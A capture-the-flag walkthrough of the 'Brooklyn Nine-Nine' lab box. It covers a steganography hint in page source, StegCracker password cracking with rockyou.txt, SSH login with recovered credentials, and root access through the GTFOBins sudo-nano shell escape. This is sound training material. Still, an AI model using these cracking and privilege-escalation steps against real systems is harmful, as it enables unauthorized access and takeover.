 # Brooklyn Nine-Nine
Though the name of this room refers to one of the globally famous series, it does not have anything to solve the box. To be honest, this room is a really easy box once you get the initial foothold. Marked as beginner, this box is truly beginner-friendly and very easy to solve. 

This box can be solved in two ways, I'll be explaining one of them. In this path, we'll be using mainly Steghide and GTFOBins. So, let's get started!

### Initial Foothold
Once the machine gets deployed, we can go `http://<machine_ip>` and see that there is an auto-sizing Brooklyn Nine-Nine poster that adjusts its size to our browser's window size. Which looks like:

![homepage_poster](./.images/homepage_poster.png)

For any webpage, the first thing that we can do is check out it's source-code and over there we can see a hint related to `steganography`.

![source-code](./.images/source_code.png)

Now, we can think like we have an image and a hint towards steganography. So, we can download the image and see if there is something hidden inside it. We can use `Steghide` to uncover the hidden data:

```
tester@kali:~/Downloads$ steghide extract -sf brooklyn99.jpg 
Enter passphrase: 
steghide: can not uncompress data. compressed data is corrupted.
```

Steghide was not able to retrieve the data from the image, so we can try to do the same with `StegCracker`. If StegCracker is not present on your machine, it can be downloaded using the command `sudo apt install stegcracker`.

We can pass on a wordlist as to StegCracker which it uses to attack the target file and if the wordlist is not passed on then it by default uses the rockyou.txt to attack the target file.

```
tester@kali:~/Downloads$ stegcracker brooklyn99.jpg 
StegCracker 2.0.9 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)

No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20395 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```

We can see that the file has been cracked and the data has been written to a new file. 

```
tester@kali:~/Downloads$ cat brooklyn99.jpg.out 
Holts Password:
*******************

Enjoy!!
```

Now, we have the user credentials that we can try to use with SSH. Keep in mind that the username is `holt` and I've hid the password with `*`.

```
tester@kali:~$ ssh holt@10.10.182.115
The authenticity of host '10.10.182.115 (10.10.182.115)' can't be established.
ECDSA key fingerprint is SHA256:Ofp49Dp4VBPb3v/vGM9jYfTRiwpg2v28x1uGhvoJ7K4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.182.115' (ECDSA) to the list of known hosts.
holt@10.10.182.115's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ cat user.txt 
*******************************
```

And we got the `user.txt` flag. Now, the next task is to get the root access for which we need to perform privilege escalation.

### Privilege Escalation
As we have already logged in as holt, we need to become root to get the second flag. We can check for the commands that can be executed as user holt. To do this we can use the command `sudo -l` to list all the commands that we can execute as root.

```
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

We can see that the command `/bin/nano` can be executed as 'root' by user 'holt'. So, we can check if there are any [GTFOBins](https://gtfobins.github.io/gtfobins/nano/) for `nano`. We can run the commands as described in GTFOBins and get the shell access as root.

First, we need to enter the `nano editor` with sudo privilege using the command:

```
holt@brookly_nine_nine:~$ sudo /bin/nano
```

Once, we get into the editor we need to press Ctrl+R and then Ctrl+X and then we can execute the command `reset; sh 1>&0 2>&0`. This will give us a root shell using which we can read the `root.txt` from `/root` directory.

![privesc](./.images/privesc.gif)

Now we can take the flag from `root.txt` and submit it as the flag for the second question. With this, we have solved the `Brooklyn Nine-Nine` room!

## Some Key Points to Take Away
1. Whenever you have access to a webpage, check it's source-code for any kind of `Sensitive Information Disclosure`.
2. If you have an image, try to check it for steganography with Steghide or StegCracker.
3. For PrivEsc, always run the command `sudo -l` to check what commands can be executed with sudo privilege by the user and then look up how that command can be exploited using `GTFOBins`.

